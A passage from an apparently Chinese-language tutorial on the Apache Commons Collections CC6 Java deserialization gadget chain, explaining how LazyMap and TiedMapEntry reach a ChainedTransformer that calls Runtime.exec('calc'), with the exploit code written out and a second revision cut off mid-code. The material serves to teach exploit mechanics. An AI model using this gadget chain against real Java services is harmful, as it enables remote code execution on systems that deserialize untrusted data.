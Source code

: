 [![](assets/1700127979-84e2cf84dbce5a3bf81918246f206ac6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155122-ef9f604c-8454-1.png)

containsKey 判断键值，我们把 key 写成个随意的让其判断为 false 从而调用到`factory.transform(key);`而这里的 factory 就是要等于`chainedTransformer`这块上面也讲到了。

至此我们一定大体理解了这个 CC-6 这条链子的思路，我们尝试着去写一下 exp

```plain
public static void main(String[] args) throws Exception{
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer cha = new ChainedTransformer(Transformers);

        HashMap<Object,Object> m1 = new HashMap<>();//设置一个空的map以便过map.containsKey
        Map<Object,Object> Lazymap = LazyMap.decorate(m1,cha);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"zxh");//LazyMap.get()这个方法的调用本来就没有参数，所以我们第二个参数为就随便写即可

        HashMap<Object,Object> m2 = new HashMap<>();
        m2.put(tiedMapEntry,"lituer");//触发hash()

    }
```

在执行的时候我们发现成功弹出了计算器，但是这并不是我们想要的结果，我们先要的是在序列化的时候不弹出计算机，在反序列化的时候就弹出计算器执行命令，但现在的情况却恰恰相反，这一幕和 URLDNS 这条链何其相似。

甚至修改的思路都是差不多的。

因为我们调用了 put 方法会一直执行的到危险函数，所以我们需要就行将序列化过程中的某个关键参数改变，然后再序列化过程完毕之后再听过反射的方法修改过来。

```plain
public static void main(String[] args) throws Exception{
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer cha = new ChainedTransformer(Transformers);

        HashMap<Object,Object> m1 = new HashMap<>();//设置一个空的map以便过map.containsKey
        Map<Object,Object> Lazymap = LazyMap.decorate(m1,new ConstantTransformer(1234));

```